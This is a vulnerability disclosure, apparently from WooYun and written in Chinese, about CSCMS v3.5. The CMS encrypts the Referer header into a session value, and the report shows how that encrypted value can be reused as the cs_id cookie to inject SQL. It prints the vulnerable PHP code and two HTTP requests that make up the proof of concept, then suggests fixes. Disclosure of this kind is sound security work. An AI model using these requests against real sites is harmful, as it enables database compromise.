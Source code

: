 ## WooYun-2014-80370：程氏舞曲CMS某洩露，導致sql注入


## **詳細說明**

cookie加密後的字符洩漏。可以替換其他字段，導致SQL等，嚴重漏洞。
文件：C:\WWW\cscms_v3.5_utf8\app\controllers\open.php

```php
//第三方登入入口

    public function login()

    {

              if(CS_Appmode==2) exit($this->CsdjSkins->Msg_url('第三方登入已經關閉！',Web_Path));

              $urldata['log_fhurl']=$_SERVER['HTTP_REFERER'];//洩漏點

              $urldata['log_state']=md5(uniqid(rand(), TRUE)); //CSRF protection;

              $this->session->set_userdata($urldata);

              $ac = $this->security->xss_clean($this->uri->segment(3)); //方式

              $log_url="http://**.**.**.**/denglu?ac=".$ac."&appid=".CS_Appid."&redirect_uri=".site_url("open/callback"). "&state=".$urldata['log_state']."&getdate=".time();

              header("Location: $log_url");

    }
```

我們提交如下，看一下，程序加密後的字符。

```
GET /cscms_v3.5_utf8/index.php/open/login/qq HTTP/1.1

Host: **.**.**.**

User-Agent: Mozilla/5.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en

Accept-Encoding: gzip,deflate

Accept-Charset: GB2312,utf-8;q=0.7,*;q=0.7

Keep-Alive: 115

Connection: keep-alive

Referer: xxoo'
```

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.3/6.3-1.jpg)

可以看到加密後的字符：log_fhurl=L8kxDzdqKNy9%2F2Qs0g
<p>
利用這個功能，加密我們想要的任意程式碼。
<p>
替換其他地方就構成注入。

```
GET /cscms_v3.5_utf8/index.php/user/ulog/index/user HTTP/1.1

Host: **.**.**.**

User-Agent: Mozilla/5.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en

Accept-Encoding: gzip,deflate

Accept-Charset: GB2312,utf-8;q=0.7,*;q=0.7

Keep-Alive: 115

Connection: keep-alive

Referer: http://**.**.**.**/cscms_v3.5_utf8/index.php/user/

Cookie: cs_id=L8kxDzdqKNy9%2F2Qs0g
```
![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.3/6.3-2.jpg)

## **漏洞證明**

![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.3/6.3-3.jpg)

## **修復方案**

方案1：加密過程加入字段的判斷，使得不能替換使用
<p>
方案2：調用cookie的後，在 addslashes 一下。
<p>
或者有其他辦法，共同進步。



